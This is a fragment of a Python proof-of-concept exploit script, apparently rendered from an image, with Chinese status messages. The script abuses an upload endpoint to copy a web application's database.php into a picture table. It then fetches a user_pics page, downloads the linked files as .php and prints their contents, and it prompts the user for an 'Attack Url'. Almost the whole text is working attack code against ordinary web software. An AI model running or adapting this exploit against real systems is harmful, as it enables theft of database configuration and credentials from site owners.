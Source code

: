 ```python
    data = {
        "1":1
    }
    try:
        response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
        if response.status_code == 200:
            print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
        else:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_2(target_url):
    vnln_url = target_url + "/public/index.php/home/file/user_pics"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vnln_url, headers=headers).text
        href = re.findall(r'<img src="(.*?)"', response)
        for i in href:
            print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
            data = requests.get(url=i, headers=headers)
            path = str(random.randint(1,999)) + '.php'
            with open(path, 'wb') as f:
                f.write(data.content)
                print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
    except:
            print("\033[31m[x] 获取文件名失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
    image_url = POC_2(target_url)
```
